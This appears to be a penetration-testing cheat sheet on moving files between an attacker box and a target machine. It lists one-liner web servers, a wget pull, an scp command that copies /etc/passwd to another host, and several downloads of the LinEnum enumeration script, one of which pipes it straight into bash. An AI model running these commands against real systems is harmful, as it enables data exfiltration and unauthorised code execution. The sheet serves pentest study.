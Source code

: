 ## Linux - Creating a Web Server with Python2.7
- `python2.7 -m SimpleHTTPServer`

## Linux - Creating a Web Server with PHP
- `php -S 0.0.0.0:8000`

## Linux - Creating a Web Server with Ruby
- `ruby -run -ehttpd . -p8000`

## Download the File from the Target Machine onto the Pwnbox
- `wget 192.168.49.128:8000/filetotransfer.txt`

# SCP Upload
## File Upload using SCP
- `scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/`

# Transferring Files with Code
## Python
### Python 2 - Download
- `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

### Python 3 - Download
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

## PHP
### PHP Download with File_get_contents()
- `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`

### PHP Download with Fopen()
- `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`

### PHP Download a File and Pipe it to Bash
- `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`

